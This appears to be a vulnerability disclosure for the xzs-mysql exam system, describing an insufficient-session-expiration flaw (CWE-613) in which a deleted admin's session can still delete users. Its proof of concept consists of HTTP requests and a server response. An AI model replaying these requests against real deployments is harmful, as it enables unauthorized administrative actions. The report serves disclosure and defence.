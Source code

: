 ## TYPE: Insufficient Session Expiration(CWE-613)

## Date: 3/13/2024
## Vendor
[mindskip](https://github.com/mindskip)
### Homepage: https://github.com/mindskip/xzs-mysql
**version**: 
3.8(updated 7/19/2022)

**commit**: 189b03f63bef4e2bfeba7003512860283ee27605(updated 3/8/2024)

## Tested on: Debian Linux, Mysql

## Exploit Description
Suffering from CWE613-Insufficient Session Expiration, which allows attackers to use the session of a deleted admin to do anything.
### PoC
1. `admin` login
2. `admin` create another admin named `sub-admin`
```
POST 	/api/admin/user/edit HTTP/1.1
{"id":null,"userName":"sub-admin","password":"123456"...}
```
3. `sub-admin` logged in 
4. `admin` delete `sub-admin`
```
POST /api/admin/user/delete/12 HTTP/1.1
```
5. `sub-admin` can still delete students
```
POST /api/admin/user/delete/15 HTTP/1.1
...
response: 
HTTP/1.1 200 OK
{"code":1,"message":"成功","response":null}
```
